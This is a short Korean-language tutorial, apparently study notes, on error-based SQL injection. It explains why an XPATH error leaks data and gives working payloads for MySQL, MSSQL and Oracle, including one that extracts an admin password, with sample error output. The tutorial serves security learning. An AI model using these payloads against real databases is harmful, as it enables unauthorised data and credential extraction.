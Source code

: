 
해당 함수를 이용해 데이터베이스의 정보를 추출할 수 있다.
concat를 통해 데이터 앞에 0x3a(:) 붙이는 이유는 의도적으로 실행 중에 오류를 일으키기 위함이다.

```sql
mysql> SELECT extractvalue(1,concat(0x3a,(SELECT password FROM users WHERE username='admin')));
ERROR 1105 (HY000): XPATH syntax error: ':Th1s_1s_admin_PASSW@rd'
```


# DBMS별로 Error based SQLI를 통해 공격하는 방법
### MySQL

```sql

SELECT updatexml(null,concat(0x0a,version()),null);
/*
ERROR 1105 (HY000): XPATH syntax error: '
5.7.29-0ubuntu0.16.04.1-log'
*/

SELECT extractvalue(1,concat(0x3a,version()));
/*
ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
*/

SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;
/*
ERROR 1062 (23000): Duplicate entry '5.7.29-0ubuntu0.16.04.1-log:1' for key '<group_key>'
*/
```
# MSSQL

```sql
SELECT convert(int,@@version);
SELECT cast((SELECT @@version) as int);
/*
Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2014 - 12.0.2000.8 (Intel X86) 
	Feb 20 2014 19:20:46 
	Copyright (c) Microsoft Corporation
	Express Edition on Windows NT 6.3 <X64> (Build 9600: ) (WOW64) (Hypervisor)
' to data type int.
*/
```

# Oracle
```sql
SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;
/*
ORA-20000: Oracle Text error:
DRG-11701: thesaurus Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production does not exist
ORA-06512: at "CTXSYS.DRUE", line 183
ORA-06512: at "CTXSYS.DRITHSX", line 555
ORA-06512: at line 1
*/
```
